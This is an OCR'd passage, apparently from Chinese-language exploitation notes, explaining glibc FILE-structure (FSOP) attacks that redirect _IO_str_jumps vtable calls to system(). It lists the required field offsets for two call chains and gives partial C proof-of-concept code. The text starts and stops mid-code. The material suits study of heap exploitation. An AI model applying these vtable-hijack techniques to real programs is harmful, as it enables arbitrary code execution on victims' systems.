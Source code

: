 ```c
    *(size_t*)((char*)fp + 0xd8) = _IO_str_jumps_ - 8;

    exit(1);
    // // 最终会在exit、return、以及libc执行abort调用。
    // return 0;
}
```

总结一下函数调用链`_IO_flush_all_lockp() -> _IO_str_finish() -> system()`需要满足的条件：

- `fp -> _IO_write_ptr`大于`fp -> _IO_write_base` ，分别对应`fp`偏移`0x20`和`0x28`（这是`_IO_flush_all_lockp()`要满足的条件）
- `fp -> _flag`最低位为`0`，偏移为`0x0`
- 设置`vtable`为`_IO_str_jumps - 0x8`，定位`_IO_str_jumps`可以通过`_IO_file_jumps`等虚表定位。
- `fp -> _IO_buf_base`存放要执行函数的参数的地址，偏移为`0x38`
- `(_IO_strfile* )fp -> _s._free_buffer`存放要执行的函数，对应偏移为`0xe8`

## 另一条调用链 _IO_flush_all_lockp -> _IO_str_overflow（<=glibc2.27可用）

原理和上面的利用链是一样的，我们此处不再详细阐述，仅仅写下需要构造的条件来供查阅。

- `fp -> _flag`最低两字节为`0`。其偏移为`0`。
- `fp -> _vtable`指向`_IO_str_jumps`。`_vtable`偏移为`0xd8`
- 偏移`0xe0`处为要执行的函数，例如`system`
- `fp -> _IO_buf_base`为`0`，其偏移为`0x38`
- `fp -> _IO_buf_end`为`(bin_sh_addr - 100) / 2`，其偏移为`0x40`。其中`bin_sh_addr`是函数参数的地址，若为奇数需要`+1`
- `fp -> _IO_write_base`为`0`，其偏移为`0x20`
- `fp -> _IO_write_ptr`为`0`，其偏移为`(bin_sh_addr - 100) / 2 + 1`

上面是通常情况下可以调用函数的参数设置，也可以看下面的C语言实现，其中注释包含了详细的要求：

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void winner(char* code){
    // system("echo win");
    printf("you got it!\n");
    printf("The code is :%s.\n", code);
    system(code);
}

// fake_vtable.c中写的是利用_IO_str_jump表中的_IO_finish函数，而本代码中使用_IO_str_jump表中的_IO_overflow函数
int main(){
    // 我们通过打开一个文件的方式，来得到一个_IO_FILE_plus指针fp
    FILE* fp = fopen("./flag", "r");

    // _IO_write_base相对于fp偏移为0x20
    // _IO_write_ptr为0x28
    // _IO_buf_base为0x38
    // _IO_buf_end为0x40

    // 要满足fp->_flags & _IO_NO_WRITES 为假，而_IO_NO_WRITES的值为8，因此倒数第二个字节要为0
    // 又要满足fp->_flags & _IO_USER_BUF为假，而_IO_USER_BUF的值为1，因此最后一个字节也为0
    *(short*)fp = 0;

    // 虚表指向_IO_str_jumps
    *(size_t*)((char*)fp + 0xd8) = *(size_t*)(((char*)fp + 0xd8)) + 0xc0;

    // 此时偏移0xe0处是要执行的函数_IO_str_overflow
    *(size_t*)((char*)fp + 0xe0) = (size_t)winner;

    // 函数参数：new_size = 2 * (fp->_IO_buf_end - fp->_IO_buf_base) + 100
```